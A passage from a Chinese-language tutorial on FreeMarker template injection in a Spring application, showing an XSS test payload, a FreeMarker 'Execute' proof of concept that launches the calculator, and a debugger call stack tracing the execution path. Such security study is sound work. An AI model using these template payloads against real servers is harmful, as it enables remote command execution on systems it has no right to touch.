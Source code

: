 第六：运行访问，访问/hello，使用 get 请求提交 name 值即可将其渲染至页面  
测试 xss：如果提交的 name 值为`<script>alert('a')</script>`，在不经过如何过滤的情况下，会将该值渲染到界面造成弹窗  
测试命令执行：在 hello.html 中写入如下命令执行 POC  
`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cmd /C calc") }`  
这样在访问/hello 时，会触发命令执行，弹出计算器

### 2.4 简单分析

在 freemarker\\template\\utility\\Execute.class 类的 exec 方法处下断点  
函数调用栈：

```bash
exec:75, Execute (freemarker.template.utility)
_eval:62, MethodCall (freemarker.core)
eval:101, Expression (freemarker.core)
calculateInterpolatedStringOrMarkup:100, DollarVariable (freemarker.core)
accept:63, DollarVariable (freemarker.core)
visit:334, Environment (freemarker.core)
visit:340, Environment (freemarker.core)
process:313, Environment (freemarker.core)
process:383, Template (freemarker.template)
processTemplate:391, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
doRender:304, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
renderMergedTemplateModel:255, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
renderMergedOutputModel:179, AbstractTemplateView (org.springframework.web.servlet.view)
render:316, AbstractView (org.springframework.web.servlet.view)
render:1373, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1118, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1057, DispatcherServlet (org.springframework.web.servlet)
doService:943, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doGet:898, FrameworkServlet (org.springframework.web.servlet)
service:626, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:733, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:202, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:542, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:374, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:868, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1590, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
```